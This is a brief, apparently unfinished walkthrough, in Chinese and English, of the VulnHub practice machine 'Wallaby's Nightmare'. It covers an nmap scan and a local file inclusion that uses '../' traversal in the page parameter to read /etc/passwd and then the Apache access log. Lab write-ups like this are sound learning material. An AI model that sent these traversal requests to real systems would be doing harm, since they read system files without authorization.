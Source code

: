 # Wallaby's: Nightmare (v1.0.2)

2024-6-20 https://www.vulnhub.com/entry/wallabys-nightmare-v102,176/

difficulty: begginer-intermediate

## IP

192.168.10.199

## Scan

Open Port -> 22,80,6667

```
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e07fc702098f846e48d2eca3922c7be (RSA)
|   256 994605e7c2bace06c447c84f9f584c86 (ECDSA)
|_  256 4c87714faf1b7c3549ba5826c1dfb84f (ED25519)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Wallaby's Server
|_http-server-header: Apache/2.4.18 (Ubuntu)
6667/tcp filtered irc
```

先访问 80， 页面底部的 start ctf 存在文件包含， http://192.168.10.199/?page=../../../../../../etc/passwd:

```
root:x:0:0:root:/root:/bin/bash
...
steven?:x:1001:1001::/home/steven?:/bin/bash
ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
<!--This is what we call 'dis-information' in the cyber security world!  Are you learning anything new here 1?-->
```

尝试访问其他文件时, 192.168.10.199/?page=../../../../../../var/log/apache2/access.log 出现提示：

```
buddy.  You must think Wallaby codes like a monkey!  I better get to securing this SQLi though...
(Wallaby caught you trying an LFI, you gotta be sneakier!  Difficulty level has increased.)
```

这时在访问，80 端口已经关闭了。重新扫描，发现端口变成了 60080，应该是 LFI 这里没什么可以利用的地方。看看那个 sqli 吧。
